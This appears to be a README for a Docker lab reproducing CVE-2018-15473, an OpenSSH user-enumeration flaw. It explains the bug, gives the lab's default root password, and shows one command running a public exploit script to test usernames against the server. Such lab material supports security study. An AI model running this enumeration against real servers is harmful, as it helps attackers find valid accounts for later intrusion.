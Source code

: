 # OpenSSH User Enumeration (CVE-2018-15473)

[中文版本(Chinese version)](README.zh-cn.md)

OpenSSH is a suite of secure networking utilities based on the Secure Shell protocol, which provides a secure channel over an unsecured network in a client–server architecture.

CVE-2018-15473 is a medium-severity vulnerability affecting OpenSSH versions up to and including 7.7. This vulnerability allows user enumeration due to the system not delaying bailout for an invalid authenticating user until after the packet containing the request has been fully parsed. As a result, a remote attacker can test whether a certain user exists on a target OpenSSH server.

References:

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## Vulnerable environment

Execute following commands to start a OpenSSH server 7.7p1:

```
docker compose build
docker compose up -d
```

After the server is started, you can log in to OpenSSH server by `ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022` and password `vulhub`.

## Vulnerability reproduce

Use [CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit) to enumerate usernames in the dictionary:

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

As you can see, `root`、`example`、`vulhub`、`nobody` are existing usernames, `rootInvalid`、`user`、`phithon` are non-existent usernames. 
